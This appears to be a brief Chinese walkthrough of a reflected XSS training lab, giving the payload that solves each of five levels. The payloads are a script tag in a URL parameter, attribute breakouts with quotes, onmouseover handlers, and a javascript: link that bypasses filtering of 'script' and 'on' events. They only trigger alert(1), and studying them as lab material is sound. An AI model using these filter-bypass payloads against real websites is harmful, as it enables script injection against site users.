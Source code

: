 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
payload："><script>alert(1)</script>

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。

payload：1' onmouseover='alert(1)
鼠标划过输入框上面即弹窗：

## level4
跟上一关一样，双引号的不同。
payload：1” onmouseover=“alert(1)

## level5
script大小写、on事件被禁用：

但是双引号、单引号、尖括号都可以用
payload：1"><a href="javascript:alert(1)">

















